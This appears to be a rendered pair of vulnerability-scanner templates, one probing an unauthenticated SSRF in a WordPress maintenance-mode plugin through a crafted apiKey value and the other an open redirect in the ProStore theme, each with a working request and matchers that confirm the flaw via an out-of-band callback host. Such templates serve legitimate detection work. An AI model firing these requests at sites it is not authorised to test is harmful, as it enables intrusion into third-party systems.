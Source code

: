 # Under Construction, Coming Soon & Maintenance Mode \< 1.1.2 - Server Side Request Forgery (SSRF)
## Description
- The includes/mc-get_lists.php file used the 'apiKey' POST parameter to create an https URL from it without sanitisation and called it with cURL, leading to a SSRF issue. The issue is exploitable via direct access to the affected file, and ucmm_mc_api AJAX call (available to both authenticated and unauthenticated users).

- severity - high
- tags - ssrf,wp,wp-plugin,wordpress,unauth,wpscan,packetstorm
## Requests
### Step - 1
```
POST /wp-admin/admin-ajax.php HTTP/2
Host: {{Hostname}}
Origin: {{BaseURL}}
Content-Type: application/x-www-form-urlencoded

action=ucmm_mc_api&apiKey=-{{interactsh-url}}%2Ftest%2Ftest%2Ftest%3Fkey1%3Dval1%26dummy%3D

```
### Matchers

**Type - word**
- part - interactsh_protocol
- words
    1. http

---
# WordPress ProStore \<1.1.3 - Open Redirect
## Description
- WordPress ProStore theme before 1.1.3 contains an open redirect vulnerability. An attacker can redirect a user to a malicious site and possibly obtain sensitive information, modify data, and/or execute unauthorized operations.
- severity - low
- tags - wordpress,wp-theme,redirect,wpscan
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/themes/prostore/go.php?https://interact.sh/
### Matchers

**Type - regex**
- regex
    1. (?m)^(?:Location\s*?:\s*?)(?:https?://|//)?(?:[a-zA-Z0-9\-_\.@]*)interact\.sh.*$
- part - header

---